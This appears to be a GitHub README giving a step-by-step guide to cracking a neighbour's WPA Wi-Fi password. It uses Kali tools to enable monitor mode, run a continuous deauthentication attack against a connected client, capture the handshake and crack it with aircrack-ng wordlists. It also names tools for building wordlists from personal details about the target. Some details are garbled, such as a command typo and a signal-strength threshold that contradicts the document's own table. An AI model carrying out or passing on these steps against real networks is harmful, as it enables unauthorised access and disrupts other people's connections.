# I. Guiding to searching for your neighbor's Wi-Fi password

## 1. Prerequisites

1. Operating Systems:
   (Choose one of these)

- Kali Linux
- Parrot Os

2. Wi-Fi adapter (support Monitor-mode) If you run your Os on a virtual machine like VMware, VirtualBox:
   (Choose one of these)

- Alfa AWUS036NHA
- Alfa AWUS036NH
- Alfa AWUS1900
- Alfa AWUS036ACH
- Panda PAU06
- Panda PAU05

## 2. Check for availability of a Wi-Fi adapter or Wi-Fi adapter recognition on the Os.

1. Plug your Wi-Fi adapter and connect to your intended Os.
   
   
   
   If you have trouble with the connection, please try this command: **sudo dmesg**
2. Check the Wif-Fi adapter status

- **`ifconfig`**
  
- **`iwconfig`**
  
  As you can see, this Wi-Fi adapter is currently in **_Managed-mode_**.

3. Turn-on Monitor-mode:

- **sudo airmon-ng start wlan0**
  
  

## 3. Capture a handshake with your target Wi-Fi

1. List all Wi-Fi info around your place:
   **`sudo airodum-ng wlan0mon`**
   
2. Capture handshake:
   | **PWR (dBm)** | **Chất lượng tín hiệu** | **Độ ổn định kết nối** |
   |-----------------|------------------------------------|-----------------------------------|
   | -30 dBm | Tín hiệu rất mạnh | Rất ổn định |
   | -50 đến -60 dBm | Tín hiệu tốt | Ổn định |
   | -60 đến -70 dBm | Tín hiệu trung bình | Đủ ổn định (có thể có gián đoạn nhỏ) |
   | -70 đến -80 dBm | Tín hiệu yếu | Không ổn định |
   | < -80 dBm | Tín hiệu rất yếu hoặc không có | Không thể kết nối |

Important:

1. Before taking the next steps, make sure that your target wifi has PWR <-70 dBm.
2. Run the two following commands at the same time.

- **sudo airodump-ng -d 'wifi bssid' -c 'wifi channel' -w 'capturefilename' wlan0mon**
  In this example, Phong Hao wifi will be the target wifi for testing.

  - **Command:** `sudo airodump-ng -d XX:YY:ZZ:00:E6:49 -c 11 -w 'test' wlan0mon`
    

- **sudo aireplay-ng --deauth 0 -a 'mac of access point or wifi bssid' -c 'client mac address or station connected with wifi' wlan0mon**

  - **Command:** `sudo aireplay-ng --deauth 0 -a XX:YY:ZZ:00:E6:49 -c AA:BB:CC:DD:47:9E wlan0mon`
    

    When you notice that there is a label **[ WPA handshake: AA:BB:CC:DD]**, congratulate! You got the handshake!
    **Now `Ctr+C`** turn the two commands off.

## 4. BruteForce (hashcat) or Dictionary (aircrack-ng) for searching passwords.

1. List all result files got from previous steps.
   
2. Check the validation of the handshake file.
   **`aircrack-ng test-01.cap`**
   
3. Dictionary attack look up the correct password

- **aircrack-ng 'file.cap' -w './link-to-password-list.txt'**
  - **`aircrack-ng test-01.cap -w /usr/share/wordlists/password-list.txt`**
    

### **Conclusion**:

After waiting a couple of times to run, if your `password-list.txt` contains the correct password, it will show on the screen that **`KEY FOUND! [correct_password_here]`**. If not, please generate another password list file that potentially contains the target's Wi-Fi password.

## **Bonus:**

Tools for generating passwords list based on the target information.
(**_Besides Python codes_** supplied on this repo for generating birthday, phone number, these tools are recommended.)

- CeWL (Custom Word List Generator)
- PARADOX
- Crunch
- Mentalist
- Snipr
- Wordlist Creator
- SecLists
- Social-Engineer Toolkit (SET)
